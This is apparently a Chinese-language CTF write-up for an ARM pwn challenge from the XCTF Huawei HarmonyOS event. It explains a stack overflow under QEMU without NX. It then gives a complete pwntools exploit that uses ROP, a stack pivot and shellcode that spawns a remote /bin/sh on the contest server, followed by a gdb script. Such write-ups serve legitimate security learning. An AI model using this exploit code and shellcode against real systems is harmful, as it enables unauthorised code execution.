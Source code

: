 ```yaml
---
title: XCTF华为鸿蒙专场 ARM Pwn1
date: 2020-12-29 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出
---
```


> 栈溢出，ARM题目的一般环境是QEMU用户态，默认不支持NX，故直接ROP+栈迁移然后写shellcode即可。

- 题目附件：[arm_pwnit.zip](https://xuanxuanblingbling.github.io/assets/attachment/huawei/arm_pwnit.zip)
- shellcode: [http://shell-storm.org/shellcode/files/shellcode-659.php](http://shell-storm.org/shellcode/files/shellcode-659.php)

```python
from pwn import *
context(arch='arm',os='linux',log_level='debug')

#io = process(["qemu-arm","-g","1234","-L",".","./bin"])
#io = process(["qemu-arm","-L",".","./bin"])
io = remote("139.159.210.220",9999)
shellcode =  b'\x02\x20\x42\xe0\x1c\x30\x8f\xe2'
shellcode += b'\x04\x30\x8d\xe5\x08\x20\x8d\xe5'
shellcode += b'\x13\x02\xa0\xe1\x07\x20\xc3\xe5'
shellcode += b'\x04\x30\x8f\xe2\x04\x10\x8d\xe2'
shellcode += b'\x01\x20\xc3\xe5\x0b\x0b\x90\xef'
shellcode += b'/bin/sh;'

pop_r3_pc = 0x00010348
data_addr = 0x00021030
read_addr = 0x000104E8

payload = b'a'*256+p32(data_addr)+p32(pop_r3_pc)+p32(data_addr)+p32(read_addr)
io.sendafter("input: ",payload);sleep(0.1)
io.sendline(p32(data_addr+4)+shellcode)
io.interactive()
```

gdb脚本：

```c
file bin
set architecture arm
b * 0x00010500
b * 0x000104F4
target remote :1234
```

其他WP都是用通用gadget做的（我还不会...感觉对于qemu题麻烦了，还要泄露libc啥的，而且exp中立即数太多，看着迷糊：

- [XCTF高校网络安全专题挑战赛-HarmonyOS和HMS专场 官方Writeup](https://www.xctf.org.cn/library/details/5acdc1c31cf4935ac38fce445978888a5710cf11/)
- [xctf高校挑战赛2020-华为harmonyos和hms专场WP（pwn部分）](https://www.1p0ch.cn/2020/12/28/%E5%8D%8E%E4%B8%BAxctf%E7%AC%AC%E4%B8%89%E5%9C%BApwn/)
- [peanuts'blog XCTF-华为专场](http://peanuts2ao.top/2020/12/30/XCTF-%E5%8D%8E%E4%B8%BA%E4%B8%93%E5%9C%BA/)
- [华为三场CTF WP By Nu1L](https://mp.weixin.qq.com/s/6bclKFJudlX1OBsS4WY3dw)

